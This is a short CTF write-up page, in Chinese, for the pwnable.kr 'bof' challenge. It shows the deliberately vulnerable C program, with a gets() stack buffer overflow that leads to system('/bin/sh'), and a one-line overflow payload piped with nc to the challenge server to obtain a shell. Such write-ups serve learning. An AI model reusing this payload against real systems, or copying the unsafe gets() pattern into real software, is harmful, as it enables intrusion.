 ```yaml
---
layout: default
title: pwnable_bof
parent: pentrue-test
nav_order: 1
---
```


# pwnable bof
Source :
- [pwnable.kr](http://pwnable.kr/play.php)
---
## fuzzy 模糊字串產生方便debug
```python
import string
import random
def id_generator(size=6, chars=string.ascii_uppercase + string.digits):
    return ''.join(random.choice(chars) for _ in range(size))
```
 
### 執行結果
id_generator()
>'G5G74W'

id_generator(3, "6793YUIO")
>'Y3U'

### 程式原始碼

``` c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
-  smash me!
-  if(key == 0xcafebabe)......
-  觀察key的位址直接修改

---
## solution

```python
#debug 
python -c "print 'A'*52+'\xbe\xba\xfe\xca'" > input.txt
#gdb
r < input.txt
#nc pwnable.kr 9000
#keep stding with python 
cat <(python -c "print 'A'*52+'\xbe\xba\xfe\xca'") - | nc pwnable.kr 9000
```




